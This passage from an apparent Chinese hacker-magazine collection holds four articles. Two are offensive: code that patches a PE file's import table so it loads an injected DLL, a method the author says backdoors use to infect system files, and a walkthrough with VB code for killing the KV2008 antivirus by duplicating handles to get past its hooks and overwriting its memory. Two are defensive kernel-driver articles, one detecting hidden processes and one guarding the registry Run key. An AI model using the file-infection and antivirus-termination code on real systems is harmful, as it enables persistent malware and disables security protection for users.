    if (pSectionBelong == NULL)
        return 0;
    else
        return pSectionBelong->VirtualAddress + dwOffset - pSectionBelong->PointerToRawData;
}
```

运行结果如图 3 所示。


图 3

这个函数的原理和函数 VirtualAddressToOffset() 类似，都是首先遍历全部的段头部，找到本偏移地址所在的段，然后根据段头部的 VirtualAddress 和 dwOffset 与本段偏移量 PointerToRawData 的差值确定这个 Offset 对应的 VirtualAddress，并返回结果。

要在 PE 文件中添加导入段，必须重写 IMAGE_IMPORT_DESCRIPTOR 数组。上文介绍过，这个数组每一项对应一个导入的 DLL，以一个 Characteristics 为零的结构体结束，而且这个数组必须是连续的。此外这个数组后面一般没有空白，那应该把新的 IMAGE_IMPORT_DESCRIPTOR 结构体插入到什么地方呢？

回顾前面介绍的内容，每个段为了内存与页对齐，其末尾都是有一定的填充数据的。本程序就是利用这些填充数据写入新的 IMAGE_IMPORT_DESCRIPTOR 数组。

新写入的数组比原来的数组长度增加，对应需要引入的 DLL。但是引入一个 DLL 还需要其他结构的协助，例如“IMAGE_THUNK_DATA”“IMAGE_IMPORT_BY_NAME”。用来存放旧的 IMAGE_IMPORT_DESCRIPTOR 数组的空间正好存放这些数据。我的实现代码具体如下：

```c
BYTE *pFileImage = (BYTE*)pPeImage;
PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pFileImage;
PIMAGE_FILE_HEADER pFileHeader = (PIMAGE_FILE_HEADER)(pFileImage + pDosHeader->e_lfanew + 4);
PIMAGE_OPTIONAL_HEADER32 pOptionalHeader = (PIMAGE_OPTIONAL_HEADER32)(pFileImage + pDosHeader->e_lfanew + 4 + sizeof(IMAGE_FILE_HEADER));
BYTE *pInterPoint = pFileImage + VirtualAddrToOffset(pOptionalHeader->AddressOfEntryPoint, pFileImage);
PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((char*)pOptionalHeader + sizeof(IMAGE_OPTIONAL_HEADER32));
BYTE *pRDataEnd = pFileImage + pSectionHeader[1].PointerToRawData + pSectionHeader[1].SizeOfRawData - 1;
UINT nPadSize = 0;
while (pRDataEnd[0] == 0) { nPadSize++; pRDataEnd--; }
```

程序首先通过上面的循环获得填充数据的长度，然后再获得需要写入的新的 IMAGE_IMPORT_DESCRIPTOR 数组的长度，存储在“dwBufferSize”中。

```c
BYTE *pPadStart = ++pRDataEnd;
PIMAGE_IMPORT_DESCRIPTOR pOriginalImportDescriptor = (PIMAGE_IMPORT_DESCRIPTOR)
    (pFileImage + VirtualAddrToOffset(pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress, pFileImage));
int nImportDescriptor = 0;
do { nImportDescriptor++; }
while (pOriginalImportDescriptor[nImportDescriptor].Characteristics != 0);
DWORD dwBufferSize = sizeof(IMAGE_IMPORT_DESCRIPTOR) * nImportDescriptor;
if (nPadSize > dwBufferSize + sizeof(IMAGE_IMPORT_DESCRIPTOR))
{
    memcpy(pPadStart, pOriginalImportDescriptor, dwBufferSize);
}
```

如果填充区域大小足够，则拷贝旧的数组，并写入新数组项，导入 DLL 文件“rydll.dll”。接下来我们还需要准备新数组项对应成员变量和相关变量，如“Name”“IMAGE_THUNK_DATA”和“IMAGE_IMPORT_BY_NAME”等等。

程序就是利用了原来的 IMAGE_IMPORT_DESCRIPTOR 数组写入这些数据的。

```c
BYTE *pPadStart = ++pRDataEnd;
PIMAGE_IMPORT_DESCRIPTOR pOriginalImportDescriptor = (PIMAGE_IMPORT_DESCRIPTOR)
    (pFileImage + VirtualAddrToOffset(pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress, pFileImage));
int nImportDescriptor = 0;
do { nImportDescriptor++; }
while (pOriginalImportDescriptor[nImportDescriptor].Characteristics != 0);
DWORD dwBufferSize = sizeof(IMAGE_IMPORT_DESCRIPTOR) * nImportDescriptor;
if (nPadSize > dwBufferSize + sizeof(IMAGE_IMPORT_DESCRIPTOR))
{
    memcpy(pPadStart, pOriginalImportDescriptor, dwBufferSize);
}
```

下面我们再给新的 IMAGE_IMPORT_DESCRIPTOR 数组项赋值，使用函数 OffsetToVirtuanAddr() 得到上面准备的各个变量的偏移地址对应的虚拟地址。

```c
pImportDescriptorAdded->ForwarderChain = 0;
pImportDescriptorAdded->TimeDateStamp = 0;
pImportDescriptorAdded->Name = OffsetToVirtuanAddr((BYTE*)pOriginalImportDescriptor - pFileImage, pFileImage);
pImportDescriptorAdded->FirstThunk = OffsetToVirtuanAddr((BYTE*)(pOriginalImportDescriptor + 1) - pFileImage, pFileImage);
pImportDescriptorAdded->OriginalFirstThunk = OffsetToVirtuanAddr((BYTE*)(pOriginalImportDescriptor + 1) - pFileImage, pFileImage);
```

最后调整选项头部的内容，即可大功告成，如图 4 所示。

```c
pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress = OffsetToVirtuanAddr(pPadStart - pFileImage, pFileImage);
pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].Size += sizeof(IMAGE_IMPORT_DESCRIPTOR);
printf("Success!");
```


这段代码主要作为原理演示之用，所以许多该判断的边界条件都没有判断。大家如果需要实现类似的功能，还要针对这段代码进行改进。我之所以这样做也是有道理的，毕竟这段代码危害性较强，时下流行的后门黑客之门就是采用这种方法感染系统文件实现自启动的。最后再声明一句，文中代码请用于合法用途，否则一切后果作者概不负责！

【本文涉及的代码（程序），请见随书光盘】

### 在内核驱动中检测隐藏进程

文/图 拿着蜗牛去散步


在安全检测工具中，一般都比较重视隐藏进程的检测。道理很简单，正常的进程没有必要去隐藏自己，毕竟隐藏进程花费的代价还是很高的。为什么这么说呢？系统中安装了钩子，运行效率自然不会很高。人正不怕影子歪，所以说没有必要去隐藏自己。当然也有一些例外的网游，为了保护自己从而隐藏进程，常见的有韩国 nProtect 公司的跑跑卡丁车，就存在隐藏进程 GameMon.des 的运行。

目前大多数流行的木马，如 PcShare、灰鸽子的隐藏进程方法一般都采用 Hook SSDT。其好处就是从 Windows 2000 到最新的 Windows Vista 操作系统都兼容且运行稳定。对于通过 Win32 API，如 EnumProcess 或 CreateToolhelp32Snapshot 这样的 Ring3 API 枚举进程的工具都可以完美地绕过，也包括 Windows 任务管理器使用的 NtQuerySystemInformation（它由 Ntdll.dll 导出）。这种隐藏进程的原理也很清晰：正常情况下，这些用户态的程序是从 Ring3 一层一层进入到 Ring0 中。常规的进程管理软件，如 Windows 优化大师，都是从 CreateToolhelp32Snapshot（通过反编译 Windows 优化大师，发现没有采用 EnumProcess 来枚举，因为该函数由 Psapi.dll 中导出，Win9x 系统不支持）=> NtQuerySystemInformation => Hook ZwQuerySystemInformation => ZwQuerySystemInformation，如图 1 所示。

据说到了 Hook ZwQuerySystemInformation 这一步时，会过滤需要隐藏的进程（这一过程是跳转到自己的一个特定的地址处理）。隐藏进程的操作，也就是链表的删除，其实没有什么神秘的。

检测的方法同样也很简单。今天我们说的方法算是最稳定、最简单的在 Ring0 下检测隐藏进程的了，不需要牵扯到稍微复杂的 PspCidTable（进程句柄表）。毕竟 PspCidTable 的结构对于每一个系统来说是不一样的：在 Windows 2000 中为两层表，到了 XP 以后就变成 3 层了；同时，它在每个系统中获得的地址也不一样，所以我们仍使用 ZwQuerySystemInformation 来枚举。或许有人会说它只能枚举出 Ring3 中 Hook EnumProcess 或 Hook CreateToolhelp32Snapshot 这样的 Win32 API 隐藏的进程。由于篇幅的问题，如何获取真实的 SSDT（系统服务描述表）地址，我会在下一期中告诉大家通用的方法获取该值，所以大家不用担心无法检测到灰鸽子、PcShare 木马。

首先，要说的是在驱动中分配内存的函数不再是 new 和 delete，而是 ExAllocatePool 和 ExFreePool。如果系统进程过多，ZwQuerySystemInformation 的调用可能会失败，本文采用一个循环重新分配缓冲区的大小，每次增加两倍的缓冲区大小，直到成功为止。文中缓冲区的初始值大小为 32KB，如果首次分配过多会导致 SYSTEM 内核进程内存占用过多，影响系统性能等问题。同时内核驱动为 Unicode 编码，这点需要大家注意。具体的代码如下，注释我写得很详细，应该都能看得懂的。


图 1

这样，每通过 Win32 API 枚举进程时，在返回数

```c
NTSTATUS Ring0EnumProcess()
{
    ULONG cbBuffer = 0x8000;
    // 初始化缓冲大小，32KB
    PVOID pBuffer = NULL;
    NTSTATUS Status;
    PSYSTEM_PROCESS_INFORMATION pInfo;
    do
    {
        ...
    }
}
```

```c
pBuffer = ExAllocatePool(NonPagedPool, cbBuffer);
// 分配内存缓冲区
if (pBuffer == NULL) // 如果内存分配失败
    return 1; // 失败了返回1并退出
Status = ZwQuerySystemInformation(SystemProcessesAndThreadsInformation, pBuffer, cbBuffer, NULL);
if (Status == STATUS_INFO_LENGTH_MISMATCH) {
    ExFreePool(pBuffer); // 释放缓冲区
    cbBuffer *= 2; // 增加缓冲区到原来的两倍大小
} else if (!NT_SUCCESS(Status)) {
    ExFreePool(pBuffer);
    return 1;
}
...
DbgPrint("pid %d ps %S\n", pInfo->ProcessId, pInfo->ProcessName.Buffer);
...
ExFreePool(pBuffer);
return 0;
```

我们使用本文附件中的 DbgView 工具来捕获 DbgPrint 函数打印的调试信息。由于 DbgView 支持 Win32 消息的捕获，会产生很多其他 Win32 垃圾信息，这里我们仅选择 Capture Kernel 捕获内核态的信息就可以了。也可以通过一个用户态的程序来读取这个驱动传递的消息，这里我就不再赘述了，大家可以搜索一些驱动通信方面的资料。最后用附件中的 DrvLoader 工具来载入本文编译后 ring0.sys 文件，单击“Load”即可，如图2所示。


最后要说明的是，编译该例程需要至少 Windows 2000 NTDDK 才可以。由于 ZwQuerySystemInformation 的结构很复杂，所有成员写出来要占用大约五六页的篇幅，这里就不再赘述，但它和 NtQuerySystemInformation 的结构相似，大家可以在 MSDN 中通过查找 NtQuerySystemInformation 得到。本文在源代码中有部分成员的描述。本文介绍的方法只能检测出 Win32 API 隐藏的进程，在下一期中，我将告诉大家如何获取真实的系统服务描述表（SSDT）地址，实现 Hook SSDT 的隐藏进程的检测方法。

［本文涉及的代码（程序），请见随书光盘］


### 主动防御之注册表保护

文／图 夜枫[http://xyc.8866.org/][tbxyvw@gmail.com]

以前的杀毒软件的原理是定义一个病毒的特征码，当发现某个文件里有符合某个病毒的特征码时，就会定义这个文件为病毒，此时杀毒软件就会提示并将执行拦截下来。随着黑客技术的升级，各种免杀技术以及一些新的病毒的出现，杀毒软件肯定不可能包含全部的病毒特征码，所以就出现了如启发式扫描、主动防御等技术。主动防御的原理实际上并不复杂，举个简单的例子，比如我写了一个键盘钩子程序用于盗取密码，而通常情况下键盘钩子的原理无非就是调用 SetWindowsHookEx 这个 API 函数，创建一个全局钩子。这个时候就会出现一个危险动作：创建全局钩子。杀毒软件通过做特定的过滤就可以拦截下这个操作并提示。这个就是主动防御小程序。

这里我的例子是保护注册表的一个启动项。在 CodeProject 网站上有一个做进程启动保护的程序，其原理和我的类似，但是又有所区别。

#### 原理分析

首先说一下网上的注册表防护程序，目前大致分为两种，各有利弊。

一是通过调用 RegNotifyChangeKeyValue 监视注册表的变化，这个方法编写起来比较简单，如 360 安全卫士等软件。但是它有个特点，就是反应比较慢，为什么呢？当注册表更改以后，系统会发送消息到使用了这个 API 的程序，而这个时候注册表实际上已经更改了，这种情况有可能出现某些意外导致没有成功提示，这也就是为什么 360 安全卫士时灵时不灵的原因。

二是通过 Hook 几个 Native API 实现在内核阻塞修改注册表的几个 API 的调用，这个方法实际是在操作注册表的过程中进行阻塞，就不会出现上面那种情况了，而且当你没有决定之前，修改注册表的程序会一直阻塞，直到返回。这种方法无论稳定性还是实用性都比第一种方法好，但缺点是比较麻烦，因为需要一个驱动程序去修改 SSDT 表。一般杀毒软件都采用此方法，本文也采用了这种方法。注册表保护这里我几个小时就写完了，但是和程序之间的交互同步上，我一直找不到好的方法，最后采用了线程阻塞的方式完成的，导致有个缺点，就是需要退出程序时必须有一个注册表修改的动作发生才能成功退出。

#### 关键代码分析

这里我贴出一些关键代码并做出解释。

```cpp
OldZwSetValueKey = (ZWSETVALUEKEY)(SYSTEMSERVICE(ZwSetValueKey));
(ZWSETVALUEKEY)(SYSTEMSERVICE(ZwSetValueKey)) = NewZwSetValueKey;
```

这段代码修改 Native API：ZwSetValueKey，这个 API 对应注册表 API：RegSetValueEx。

```cpp
DriverObject->MajorFunction[IRP_MJ_CREATE] = DispatchCreate;
DriverObject->MajorFunction[IRP_MJ_CLOSE]  = DispatchClose;
DriverObject->MajorFunction[IRP_MJ_READ]   = DispatchRead;
DriverObject->MajorFunction[IRP_MJ_WRITE]  = DispatchWrite;
```

这里设置几个 IRP 的处理函数。其中 IRP_MJ_READ 和 IRP_MJ_WRITE 分别对应的 API 函数是 ReadFile 和 WriteFile。本文实现的程序不是使用 DeviceIoControl 来操作实现的。我们还是先看一下 Hook 的新函数的处理方法。

```cpp
NTSTATUS NewZwSetValueKey(
    IN HANDLE KeyHandle,
    IN PUNICODE_STRING ValueName,
    IN ULONG TitleIndex OPTIONAL,
    IN ULONG Type,
    IN PVOID Data,
    IN ULONG DataSize)
{
    NTSTATUS nStatus = STATUS_SUCCESS;
    ANSI_STRING aValueName, aValueData;
    UNICODE_STRING uValueData;
    ULONG outLen = 0;
    ANSI_STRING KeyName;
    PUNICODE_STRING pKeyName = NULL;
    ANSI_STRING ProKey;

    pKeyName = ExAllocatePool(NonPagedPool, 512*2+2*sizeof(ULONG));
    nStatus = ZwQueryObject(KeyHandle, ObjectNameInformation,
        (POBJECT_NAME_INFORMATION)pKeyName, 1024, &outLen);
    if (nStatus != STATUS_SUCCESS) return nStatus;

    RtlUnicodeStringToAnsiString(&KeyName, pKeyName, TRUE);
    RtlUpperString(&KeyName, &KeyName);
    RtlInitAnsiString(&ProKey,
        "\\REGISTRY\\MACHINE\\SOFTWARE\\MICROSOFT\\WINDOWS\\CURRENTVERSION\\RUN");

    RtlUnicodeStringToAnsiString(&aValueName, ValueName, TRUE);
    RtlInitUnicodeString(&uValueData, Data);
    RtlUnicodeStringToAnsiString(&aValueData, &uValueData, TRUE);

    if (REG_SZ == Type && RtlCompareString(&ProKey, &KeyName, TRUE) == 0) {
        DbgPrint("Insert:[%s],[%s]\n", aValueName.Buffer, aValueData.Buffer);
    }

    nStatus = OldZwSetValueKey(KeyHandle, ValueName, TitleIndex, Type, Data, DataSize);
    return nStatus;
}
```

通过调用 ZwQueryObject 这个 API 可以获得对应的对象，对应的是一个结构体，里面只有一个项，是一个 UNICODE_STRING 类型的字符串，所以我直接强制转换为 UNICODE_STRING 字符串了。`"\\REGISTRY\\MACHINE\\SOFTWARE\\MICROSOFT\\WINDOWS\\CURRENTVERSION\\RUN"` 为启动项位置，当调用 ZwQueryObject 查询到对应的注册表项时，和这个进行对比以判断被修改的是否为启动项，如果是再做处理。这里只是打印一个调试信息，因为里面的代码是和程序进行同步的，这个我们后面再说。

用另外一个 EVENT 阻塞。当调用 WriteFile 后再让注册表修改函数返回，然后一切复原等待下一次操作。听起来似乎有些太抽象，不太好理解，那就直接来看代码吧。

```cpp
NTSTATUS NewZwDeleteValueKey(
    IN HANDLE KeyHandle,
    IN PUNICODE_STRING ValueName
)
{
    NTSTATUS nStatus = STATUS_SUCCESS;
    ANSI_STRING ansiValueName;
    ANSI_STRING cKeyName;
    PUNICODE_STRING pKeyName = NULL;
    ULONG outLen = 0;
    ANSI_STRING ProKey;
    pKeyName = ExAllocatePool(NonPagedPool, 512*2+2*sizeof(ULONG));

    nStatus = ZwQueryObject(KeyHandle, ObjectNameInformation,
        (POBJECT_NAME_INFORMATION)pKeyName, 1024, &outLen);
    if (nStatus != STATUS_SUCCESS)
        return nStatus;

    RtlInitAnsiString(&ProKey,
        "\\REGISTRY\\MACHINE\\SOFTWARE\\MICROSOFT\\WINDOWS\\CURRENTVERSION\\RUN");
    RtlUnicodeStringToAnsiString(&cKeyName, pKeyName, TRUE);
    RtlUpperString(&cKeyName, &cKeyName);
    RtlUnicodeStringToAnsiString(&ansiValueName, ValueName, TRUE);

    if (RtlCompareString(&ProKey, &cKeyName, TRUE) == 0) {
        DbgPrint("Delete: [%s]\n", ansiValueName.Buffer);
    }

    nStatus = OldZwDeleteValueKey(KeyHandle, ValueName);
    return nStatus;
}
```

```cpp
NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING theRegistryPath)
{
    ......（省略N多代码）
    KeInitializeEvent(&Event[0], NotificationEvent, FALSE);
    KeInitializeEvent(&Event[1], NotificationEvent, FALSE);
    return nStatus;
}
```

这里先是初始化两个事件对象，并且都是无信号状态。

```cpp
NTSTATUS DispatchRead(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    NTSTATUS ntStatus = STATUS_SUCCESS;
    Irp->IoStatus.Status = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;
    if (TRUE != IsClose) {
        KeWaitForSingleObject(&Event[1], Executive, KernelMode, FALSE, NULL);
        strcpy(Irp->UserBuffer, Info.Buffer);
        KeResetEvent(&Event[1]);
    }
    ntStatus = Irp->IoStatus.Status;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return ntStatus;
}
```

这段代码是删除注册表项的处理。对应的 API 函数是 RegDeleteValue，这里也是打印一个调试信息。

值得一提的是，这些函数的参数都是 UNICODE_STRING 类型，我们一般编程除非要在非中文操作系统中使用，否则一般都是用 ANSI 字符串，所以我们需要转换成 ANSI_STRING 类型。

#### 程序同步代码分析

这部分介绍的是和程序的同步。我本来想直接写一个锁定不加交互功能的，但后来为了追求完美，所以还是用了交互的方法。我前后试了好几种方案，都不是很理想，CodeProject 上有类似的代码，但写得太乱，我没看懂他的思路。后来在损失若干脑细胞后终于想出了一个方法，就是通过两个事件对象进行同步和阻塞，大致原理如下。

首先程序调用 ReadFile，当驱动收到 IRP_MJ_READ 这个 IRP 后，先不返回而是直接阻塞。当有注册表修改时再让它返回并附带修改信息，而修改函数本身用另外一个 EVENT 阻塞。修改函数返回后，再恢复等待下一次操作。

KeWaitForSingleObject 的意思和多线程编程时那个类似函数的意思是一样的，都是阻塞线程。至于 IsClose 是为了判断退出时候用的，因为程序采用多线程读的时候会阻塞在 ReadFile 上，这个可以让它直接返回以便退出。

```cpp
NTSTATUS NewZwSetValueKey(
    IN HANDLE KeyHandle,
    IN PUNICODE_STRING ValueName,
    IN ULONG TitleIndex OPTIONAL,
    IN ULONG Type,
    IN PVOID Data,
    IN ULONG DataSize)
{
    ......（省略N多代码）
    if (REG_SZ == Type && RtlCompareString(&ProKey, &cKeyName, TRUE) == 0) {
        DbgPrint("insert:[%s][%s]\n", aValueName.Buffer, aValueData.Buffer);
        if (TRUE != IsClose) {
            ...
        }
    }
}
```

```cpp
RtlInitAnsiString(&Info, aValueName.Buffer);
KeSetEvent(&Event[1], 0, FALSE);
KeWaitForSingleObject(&Event[0], Executive, KernelMode, FALSE, NULL);
KeResetEvent(&Event[0]);
if (0 == Result)
{
    return STATUS_INVALID_HANDLE;
    Result = -1;
}
...
nStatus = OldZwSetValueKey(KeyHandle, ValueName, TitleIndex, Type, Data, DataSize);
return nStatus;
```

```cpp
{
    if (NULL == hDevice)
        return 1;
    memset(buffer, 0, 1024);
    int ret = ReadFile(hDevice, buffer, (DWORD)strlen(buffer), &BytesRead, NULL);
    if (ret == TRUE)
    {
        if (IDYES == ::MessageBox(NULL, buffer, "", MB_YESNO | MB_ICONQUESTION))
            control = 1;
        else
            control = 0;
        ret = WriteFile(hDevice, &control, sizeof(int), &BytesRead, NULL);
    }
    return 1;
}

void CControlDlg::OnClose()
{
    int control = 1000;
    DWORD BytesRead = 0;
    BOOL ret = WriteFile(hDevice, &control, sizeof(int), &BytesRead, NULL);
    CloseHandle(hDevice);
    hDevice = NULL;
    CDialog::OnClose();
}
```

第一个 KeSetEvent 是为了让 IRP_MJ_READ 返回，下一段代码是阻塞当前这个函数。

```cpp
NTSTATUS DispatchWrite(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    NTSTATUS ntStatus = STATUS_SUCCESS;
    int *buffer = NULL;
    Irp->IoStatus.Status = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;
    buffer = (int*)Irp->UserBuffer;
    Result = *buffer;
    if (1000 == Result)
    {
        IsClose = TRUE;
        KeSetEvent(&Event[0], 0, FALSE);
        KeSetEvent(&Event[1], 0, FALSE);
    }
    KeSetEvent(&Event[0], 0, FALSE);
    ntStatus = Irp->IoStatus.Status;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return ntStatus;
}
```

#### 程序实现效果

程序编写完后，我们来看一下实际的效果，如图1所示。当我们选择“否”时，结果如图2所示；当选择“是”的时候，结果如图3和图4所示。

至此，我们的主动防御程序就设计完了，虽然退出的时候有点小问题，不过还算不上什么碍事的大问题了，呵呵。

当程序调用 WriteFile 并写入信息后，再让刚才那个函数返回，并确定是允许还是拒绝。如果写入的是 1000 则退出，这个方案其实并不是很好，但我实在想不出什么更好的方案了。当 IRP_MJ_READ 阻塞后，整个驱动也都被阻塞了，只有两个 Hook 函数因为是直接映射在地址里，不存在被阻塞的问题，但是驱动是不会响应 IRP_MJ_WRITE 的，所以需要一个修改注册表的动作才能让程序退出。

```cpp
DWORD CControlDlg::ThreadProc(LPVOID lParameter)
{
    char buffer[1024] = {0};
    DWORD BytesRead = 0;
    int control = 1;
    while (1)
    {
        ...
    }
}
```


【本文涉及的代码（程序），请见随书光盘】

## Ring3下终止江民KV2008

文/图 呼子（0GiNN）


看了《黑客防线》2007年第12期 willy[www] 的文章《浅析Ring3下对抗2008瑞星主动防御》后，收获不少，文中提到使用关联作业对象进行杀进程是个不错的方法。但经过我测试，发现该方法对江民KV2008无效。

KV2008对其自我保护的宣传不亚于对其杀毒功效的宣传。越来越多的病毒开始反杀毒软件，在自身运行前首先尝试关闭杀毒软件。江民杀毒软件KV2008采用窗口保护以及进程保护技术，避免病毒关闭杀毒软件进程，确保杀毒软件自身安全，只有自身足够强壮才能更好地保护用户电脑的安全。

的确，使用 IceSword 和作业对象的方法都无法杀掉 KV2008 的进程，可见 KV2008 的确拥有自己的一套进程保护措施。下面我们就一起分析一下其防杀原理，并提出一种在 Ring3 终止 KV2008 进程的方法。

```c
call nt!PsGetNextProcessThread (8057b3b9)
// 遍历线程中的进程
mov esi,eax
test esi,esi
je nt!NTerminateProcess+0xe2 (80585801)
and dword ptr [ebp+8],0
cmp esi,edi
je nt!NTerminateProcess+0xd5 (805857f4)
push dword ptr [ebp+0Ch]
push esi
call nt!PspTerminateThreadByPointer (8057c703)
// 调用 PspTerminateThreadByPointer 杀死线程
push esi
push ebx
call nt!PsGetNextProcessThread (8057b3b9)
...
ret 8
```

之前 willy[www] 所介绍的关联作业对象来终止瑞星的方法过程是这样的：  
TerminateJobObject -> NtTerminateJobObject -> PspTerminateAllProcessesInJob -> PspTerminateProcess，最终调用的是 PspTerminateProcess，关键部分实现同上。

由于在 KD 中反汇编得到的 PspTerminateThreadByPointer 很分散，所以我们以伪代码描述如下（大家自己调试时也可以参考 KD 的反汇编源码）。

### KV2008的防杀原理

首先安装 KV2008，除了其提供的 IE 工具栏，其余均为默认选项。重启后运行 Rootkit Unhooker（以下简称 RKU），得到如图1所示的结果。其中的 0x804E637B 是 KiInsertQueueApc+0x2，KeInsertQueueApc 最终会调用 KiInsertQueueApc。


由此可以看到，KV2008 通过使用 Inline Hook 对相关的一些内核函数进行挂钩来实现其进程保护（SSDT Hook 暂且忽略）。下面我们通过 KD 来分析其原理，开始之前先解释一下其中的一些 Hook。KeInsertQueueApc 是防杀的关键，先对其 KD 一下。

我们知道，在用户态调用 TerminateProcess 最终会调用 NtTerminateProcess（具体可以参考 PJF 的文章《终止进程的内幕》）。

```asm
lkd> u nt!NtTerminateProcess L70
nt!NtTerminateProcess:
......
```

```c
NTSTATUS Fake_PspTerminateThreadByPointer(...)
{
    PKAPC Apc = NULL;
    NTSTATUS Status = STATUS_SUCCESS;
    BOOLEAN bInSucceed = FALSE;

    Apc = ExAllocatePool(NonPagedPool, sizeof(KAPC));
    KeInitializeApc(Apc,
        Thread,
        OriginalApcEnvironment,
        Fake_PspExitThread,
        // 这个例程会终止调用者的线程
        NULL,
        NULL,
        KernelMode,
        NULL);

    bInSucceed = KeInsertQueueApc(Apc, NULL, NULL, 0); // 这里便是KV2008做HOOK的地方
    KeForceResumeThread(Thread);

    if (!bInSucceed) Status = STATUS_UNSUCCESSFUL;
    return Status;
}
```

这样应该就很明白了，最终线程是通过被插入的 APC 调用 `PspExitThread` 而自杀的（如果对 APC 不了解可以查阅相关资料，推荐毛德操所著《漫谈兼容内核之十二：Windows的APC机制》）。至于 `KeInsertQueueApc`，我们则可以看作是一个 Stub，做了一些铺垫后简单地调用了 `KiInsertQueueApc`。`ObOpenObjectByPointer` 则是为了防止其他进程打开 KV2008 自己的进程——这个函数在 `NtOpenProcess` 中被调用。

```asm
lkd> u NtOpenProcess L70
nt!NtOpenProcess:
...
call nt!PsLookupProcessByProcessId
// 根据输入的PID查询进程内核对象的指针(PEPROCESS)
...
call nt!ObOpenObjectByPointer
// 通过对象指针（PEPROCESS）得到句柄
ret 10h
```

可能大家会发现，IceSword 无法枚举出 KV2008 线程所加载的模块，这正是因为 KV2008 对 `ObOpenObjectByPointer` 进行了 Hook 的缘故——因为 IceSword 无法得到 KV2008 进程的句柄，所以通过 `ZwQueryVirtualMemory` 来枚举进程模块也就无从谈起了（关于如何使用 `ZwQueryVirtualMemory` 请自己查阅相关资料，限于篇幅不再给出）。此外还有一些 SSDT Hook，不过 SSDT Hook 跟 KV2008 防止自身被 IceSword 结束基本没什么关系，本文就略过不谈了。

#### 解决方案

- 1. 拿到 KV2008 的进程句柄

在 willy[www] 的终止瑞星的代码中，取得进程句柄使用的是 `OpenProcess`，但是通过前文的分析不难发现：

现由于 KV2008 对 `ObOpenObjectByPointer` 进行了 Hook，所以我们需要使用其他的方法来得到进程句柄。在很久之前，FlowerCode 曾经给出过一套打开 IceSword 进程的代码，通过枚举系统中的句柄并复制句柄来绕过一些 Hook，这里大概介绍一下这种方法。

- 1) 使用 `ZwQuerySystemInformation` 的 `SystemHandleInformation` 号调用得到系统中的所有句柄。  
- 2) 如果是进程类型的句柄，就通过 `ZwDuplicateObject` 将句柄复制到自己的句柄表中。  
- 3) 通过 `ZwQueryInformationProcess` 来查询句柄对应的进程ID。  
- 4) 如果是需要打开的进程的进程ID，那么就返回这个句柄，否则重复2~4。

由于这种方法是通过复制句柄（`ZwDuplicateObject`）来得到句柄的，绕过了对 `ObOpenObjectByPointer` 的调用，所以这样的做法就可以用来打开 KV2008 的进程。枚举句柄体现为 VB 代码如下：

```vb
Do
    ReDim bytBuf(arySize)
    st = ZwQuerySystemInformation(SystemHandleInformation, VarPtr(bytBuf(0)), arySize, 0&)
    If (Not NT_SUCCESS(st)) Then
        If (st <> STATUS_INFO_LENGTH_MISMATCH) Then
            Erase bytBuf
            Exit Function
        End If
    Else
        Exit Do
    End If
    arySize = arySize * 2
    ReDim bytBuf(arySize)
Loop
```

之后我们便可以对句柄进行检查了，VB 实现如下。由于我们通常需要从 `csrss.exe` 中复制句柄，而打开 `csrss.exe` 需要 `SE_DEBUG` 特权，所以下面代码需要 `SE_DEBUG` 特权。

```vb
NumOfHandle = 0
Call CopyMemory(VarPtr(NumOfHandle), VarPtr(bytBuf(0)), Len(NumOfHandle))
' 返回的数据中的前4字节是返回的句柄信息的数据块数目
Dim h_info() As SYSTEM_HANDLE_TABLE_ENTRY_INFO
ReDim h_info(NumOfHandle - 1)
Call CopyMemory(VarPtr(h_info(0)), VarPtr(bytBuf(0)) + Len(NumOfHandle), Len(h_info(0)) * (NumOfHandle - 1))
For I = LBound(h_info) To UBound(h_info)
    With h_info(I)
        If (.ObjectTypeIndex = OB_TYPE_PROCESS) Then
            ' OB_TYPE_PROCESS是进程类型的句柄
        End If
    End With
Next
```

```c
cid.UniqueProcess = UniqueProcessId
st = ZwOpenProcess(hProcessToDup, PROCESS_DUP_HANDLE, oa, cid)
// 以复制句柄权限打开目标进程
If (NT_SUCCESS(st)) Then
    st = ZwDuplicateObject(hProcessToDup, HandleValue, ZwCurrentProcess, hProcessCur, PROCESS_ALL_ACCESS, 0, DUPLICATE_SAME_ATTRIBUTES)
    If (NT_SUCCESS(st)) Then
        st = ZwQueryInformationProcess(hProcessCur, ProcessBasicInformation, VarPtr(pbi), Len(pbi), 0)
        If (NT_SUCCESS(st)) Then
            If (pbi.UniqueProcessId = ProcessId) Then
                st = ZwDuplicateObject(hProcessToDup, HandleValue, ZwCurrentProcess, hProcessToRet, dwDesiredAccess, OBJ_INHERIT, DUPLICATE_SAME_ATTRIBUTES)
                If (NT_SUCCESS(st)) Then OpenProcess = hProcessToRet
            End If
        End If
        st = ZwClose(hProcessCur)
    End If
    st = ZwClose(hProcessToDup)
End If
```

请自己使用 Anti-Rootkit 工具查看，所以大名鼎鼎的 RkU 之 PVASE（进程虚拟地址空间清零技术）就可以派上用场了。

但是再想想就会发现，RkU 的 PVASE 之后常常导致进程的 CPU 占用率居高不下，在处理 RootKit 时这样是可以忍受的，但是我们要做的是杀 KV2008 而不是杀 Rootkit，所以不能有那么高的占用率。

那么，除了填 0 外，我们还有什么选择呢？曾经 VXK 提出过全部填入 `0xCC`（int 3），3号中断是 BreakPoint，我们全填入 `0xCC` 看看 KV2008 会作何反应。向进程中填入 `0xCC` 的 VB 代码实现如下。

```vb
Public Sub FillProcessMemoryWithBreakPoint(ByVal hProcess As Long)
    Dim bytBreakPoints(&H1000 - 1) As Byte
    Dim I As Long
    Dim Written As Long
    For I = 0 To &H1000 - 1
        bytBreakPoints(I) = &HCC
    Next
    For I = 0 To &H7FFFFFFF - &H1000 Step &H1000
